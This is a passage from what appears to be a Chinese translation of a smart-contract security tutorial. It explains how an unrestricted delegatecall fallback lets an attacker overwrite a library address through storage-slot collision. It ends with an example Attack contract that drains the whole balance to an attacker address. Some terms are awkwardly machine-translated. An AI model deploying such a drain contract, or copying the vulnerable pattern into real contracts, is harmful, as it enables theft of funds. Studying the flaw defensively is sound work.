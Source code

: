 ```solidity

    function withdraw() {
        withdrawalCounter += 1;
        // calculate the fibonacci number for the current withdrawal user
        // this sets calculatedFibNumber
        require(fibonacciLibrary.delegatecall(fibSig, withdrawalCounter));
        msg.sender.transfer(calculatedFibNumber * 1 ether);
    }
    
    // allow users to call fibonacci library functions
    function() public {
        require(fibonacciLibrary.delegatecall(msg.data));
    }
}
```

该合约允许参与者从合约中提取ether，ether的金额等于与参与者提款订单相对应的斐波纳契数字; 即第一个参与者获得1个ether，第二个参与者获得1，第三个获得2，第四个获得3，第五个5等等（直到合约的余额小于被撤回的斐波纳契数）。

本合约中有许多要素可能需要一些解释。首先，有一个有趣的变量，fibSig。这包含字符串“fibonacci（uint256）”的Keccak（SHA-3）散列的前4个字节。这被称为[函数选择器](https://solidity.readthedocs.io/en/latest/abi-spec.html#function-selector)，calldata用于指定智能合约的哪个函数将被调用。它在delegatecall[21]行的函数中用来指定我们希望运行该fibonacci(uint256)函数。第二个参数delegatecall是我们传递给函数的参数。其次，我们假设FibonacciLib库的地址在构造函数中正确引用（[部署攻击向量](https://github.com/sigp/solidity-security-blog#deployment)部分 如果合约参考初始化，讨论一些与此类相关的潜在漏洞）。

你能在这份合约中发现任何错误吗？如果你把它改成混音，用ether填充并调用withdraw()，它可能会恢复。

您可能已经注意到，在start库和主调用合约中都使用了状态变量。在图书馆合约中，start用于指定斐波纳契数列的开始并设置为0，而3在FibonacciBalance合约中设置。您可能还注意到，FibonacciBalance合约中的回退功能允许将所有调用传递给库合约，这也允许调用库合约的setStart()功能。回想一下，我们保留了合约的状态，看起来这个功能可以让你改变start本地FibonnacciBalance合约中变量的状态。如果是这样，这将允许一个撤回更多的醚，因为结果calculatedFibNumber是依赖于start变量（如图书馆合约中所见）。实际上，该setStart()函数不会（也不能）修改合约中的start变量FibonacciBalance。这个合约中的潜在弱点比仅仅修改start变量要糟糕得多。

在讨论实际问题之前，我们先快速绕道了解状态变量（storage变量）实际上是如何存储在合约中的。状态或storage变量（持续在单个事务中的变量）slots在合约中引入时按顺序放置。（这里有一些复杂性，我鼓励读者阅读存储中状态变量的布局以便更透彻的理解）。

作为一个例子，让我们看看library 合约。它有两个状态变量，start和calculatedFibNumber。第一个变量是start，因此它被存储在合约的存储位置slot[0]（即第一个槽）。第二个变量calculatedFibNumber放在下一个可用的存储槽中slot[1]。如果我们看看这个函数setStart()，它会接受一个输入并设置start输入的内容。因此，该功能设置slot[0]为我们在该setStart()功能中提供的任何输入。同样，该setFibonacci()函数设置calculatedFibNumber为的结果fibonacci(n)。再次，这只是将存储设置slot[1]为值fibonacci(n)。

现在让我们看看FibonacciBalance合约。存储slot[0]现在对应于fibonacciLibrary地址并slot[1]对应于calculatedFibNumber。它就在这里出现漏洞。delegatecall 保留合约上下文。这意味着通过执行的代码delegatecall将作用于调用合约的状态（即存储）。

现在请注意，我们在withdraw()[21]线上执行，fibonacciLibrary.delegatecall(fibSig,withdrawalCounter)。这就调用了setFibonacci()我们讨论的函数，修改了存储 slot[1]，在我们当前的情况下calculatedFibNumber。这是预期的（即执行后，calculatedFibNumber得到调整）。但是，请记住，合约中的start变量FibonacciLib位于存储中slot[0]，即fibonacciLibrary当前合约中的地址。这意味着该功能fibonacci()会带来意想不到的结果。这是因为它引用start（slot[0]）当前调用上下文中的fibonacciLibrary哪个地址是地址（当解释为a时，该地址通常很大uint）。因此，该withdraw()函数很可能会恢复，因为它不包含uint(fibonacciLibrary)ether的量，这是什么calcultedFibNumber会返回。

更糟糕的是，FibonacciBalance合约允许用户fibonacciLibrary通过行[26]上的后备功能调用所有功能。正如我们前面所讨论的那样，这包括该setStart()功能。我们讨论过这个功能允许任何人修改或设置存储slot[0]。在这种情况下，存储slot[0]是fibonacciLibrary地址。因此，攻击者可以创建一个恶意合约（下面是一个例子），将地址转换为uint（这可以在python中轻松使用int('<address>',16)）然后调用setStart(<attack_contract_address_as_uint>)。这将改变fibonacciLibrary为攻击合约的地址。然后，无论何时用户调用withdraw()或回退函数，恶意契约都会运行（这可以窃取合约的全部余额），因为我们修改了实际地址fibonacciLibrary。这种攻击合约的一个例子是，

```solidity
contract Attack {
    uint storageSlot0; // corresponds to fibonacciLibrary
    uint storageSlot1; // corresponds to calculatedFibNumber
   
    // fallback - this will run if a specified function is not found
    function() public {
        storageSlot1 = 0; // we set calculatedFibNumber to 0, so that if withdraw
        // is called we don't send out any ether. 
        <attacker_address>.transfer(this.balance); // we take all the ether
    }
 }
```
